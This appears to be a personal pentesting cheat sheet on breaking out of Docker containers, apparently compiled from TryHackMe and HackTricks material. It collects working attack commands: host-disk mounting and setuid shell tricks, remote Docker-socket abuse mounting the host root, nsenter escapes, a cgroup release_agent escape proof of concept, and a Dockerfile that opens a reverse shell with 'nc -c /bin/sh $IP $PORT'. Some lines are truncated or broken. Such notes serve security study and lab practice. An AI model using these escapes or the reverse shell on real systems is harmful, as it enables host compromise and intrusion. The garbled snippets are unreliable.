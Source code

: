 # Docker Hacking


For basic information about docker try here: [[Docker]].
Containers have networking capabilities and their own file storage. They achieve this by using three components of the Linux kernel:

-   Namespaces - segregate system resources such as processes, files, and memory away from other namespaces.
-   Cgroups - Cgroups are used by containerization software such as LXC or Docker
-   OverlayFS

Typically you are trying to escape from a  container and general these escapes stem from misconfigurations of the container from services or access controls.

## How to know when you are in a container?

[pspy](https://github.com/DominicBreuker/pspy) on Linux or Systernals proc\*-related tools or access with tasklist for windows.
```bash
ls -la / # And find:
.dockerenv

# Lack of processes
ps aux 

# Docker Processes
cat /proc/1/cgroup 
cat /proc/1/cgroup | grep docker
```

Check for mount misconfigurations. It is a misconfiguration if Docker container is running `--privileged`, meaning we are can mount to these disks as container does not need disks 
```bash
# check if disks are mountable into the host filesystem 
mount | grep /dev/sda 
mount /dev/sdaX /mnt

# If you are not root or another mn

cp /bin/sh $mount_misconfiguration_dir
# Give the binary suid privileges
chmod u+s /bin/sh  
# And PrivEsc on the host after breakout.

# Mounted Socket Escape
# Search the socket
find / -name docker.sock 2>/dev/null
# It's usually in /run/docker.sock

```

[Deepce](https://github.com/stealthcopter/deepce.git) is like PEAS-NG for Docker

Docker has a socket [[Network-Protocols]] on 5000 so that another host can send commands to it, not default, but possible.

## Preface

Add IP and domain name to /etc/hosts
```bash
echo "$IP $DOMAIN" | tee -a /etc/hosts
```

Configure Docker to trust your instance, either make `/etc/docker/daemon.json` or enter:
```json
{
	 "target-id" : ["docker-domain.name:$DOCKERPORTLOW","docker-domain.name:$DOCKERPORTHIGH"]
}
```

Control Docker(Linux)
```bash
systemctl stop docker
systemctl start docker
```

Docker Commands
```bash
RUN echo "Docker"
COPY 
````
For full list see [Commands](https://docs.docker.com/engine/reference/commandline/cli/)

## Docker Enumeration

On target machine enumerate the lay of the land:
```bash
docker -H $remotehost $dockcmd
docker ps
docker version
docker image ls
docker config ls
```

## Inside a Docker Image?
```bash
# Check routing
ip a
```

[cli Tool](https://github.com/containers/skopeo)

## GTFOBins/docker

```bash
docker images ls # list images required
```
[gtofbins](https://gtfobins.github.io/gtfobins/docker/#shell)

## Accessing Docker Container and exec..
```
docker -H $remotehost run -v /:/mnt --rm -it -d $image:$tag
docker -H $remotehost run -v /:/mnt --rm -it $image:$tag chroot /mnt sh
```

## Abusing Docker Registry

[Docker registries](https://docs.docker.com/registry/) are stateless server side application stores the Docker Image. Registries store and provide Docker images for use. Private registries contain various called a **tag**. The Docker Registry is a JSON endpoint query it with 

Nmap scan to find the ports to interact with the container.

```bash
# postman
GET http://$domain:$port/
````

## Reversing Images
Download the image to reverse
```docker
docker pull app/app:$TAG
```

[Dive](https://github.com/wagoodman/dive) is a tool for exploring each layer in a docker image. 

## Uploading Malicious Docker Images
Dockerfile 
```docker
FROM $image:

RUN apt-get update -y
RUN apt-get install netcat -y # Socat would be better!
RUN nc -c /bin/sh $IP $PORT
```
Build image
```bash
docker build
```
Then upload with push:
```
docker push
```

## Shared Namespaces

Namespaces segregate system resources. Have root access inside the container or potential use pspy. Find a namespace
```bash
ps aux
```
We then mount the namespace of the process running outside of the container with a sh shell.
```
nsenter --target $PID --mount sh
```

## Misconfigured Privileges
If a docker container is running with privileged mode it bypasses the Docker engine and has direct communication with host OS. List container capabilities with:
```
capsh --print | grep # admin chroot sys_module sys_time
```
The commented out greppables indicate privilege mode. [PoC](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.)
```bash
# On the host
# docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
 
# In the container
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
 
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
 
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

## No ping and you need to pivot

Q: What is the Default Gateway for the Docker Container?

Use `/dev/tcp/ipaddr/port` or python

```bash
#!/bin/bash   
ports=(21 22 53 80 443 3306 8443 8080)   
for port in ${ports[@]}; do   
	timeout 1 
	bash -c "echo \"Port Scan Test\" > /dev/tcp/1.1.1.1/$port && echo $port is open || /dev/null"    
done
```


```python
#!/usr/bin/python3
import socket
host = "1.1.1.1"
portList = [21,22,53,80,443,3306,8443,8080]
for port in portList:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        try:
            s.connect((host,port))
            print("Port ", port, " is open")
        except:
            print("Port ", port, " is closed")
```

Netcat
`nc -zv 192.168.100.1 1-65535`

## References

[Docker](https://docs.docker.com/get-started/overview/)
[THM Room Docker Rodeo](https://tryhackme.com/room/dockerrodeo)
[trailofbits](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.)
[cgroups](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt)
[Commands](https://docs.docker.com/engine/reference/commandline/cli/)
[Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation)